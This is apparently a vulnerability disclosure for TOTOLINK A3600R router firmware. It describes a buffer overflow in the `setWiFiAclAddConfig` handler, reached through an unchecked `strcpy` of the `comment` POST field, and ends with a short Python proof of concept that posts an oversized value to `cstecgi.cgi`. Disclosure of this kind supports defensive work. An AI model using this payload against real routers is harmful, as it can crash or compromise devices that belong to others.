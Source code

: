 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a buffer overflow vulnerability in the `setWiFiAclAddConfig` function. The `v12` variable receives the `comment` parameter from a POST request. However, since the user can control the input of `comment`, the `strcpy(v26, (const char *)v12);` can cause a buffer overflow vulnerability.

![image-20240721015949402](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015949402.png)

## POC

```python
/import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"comment":"a"*0x1000,"topicurl":"setWiFiAclAddConfig"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721015356613](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015356613.png)
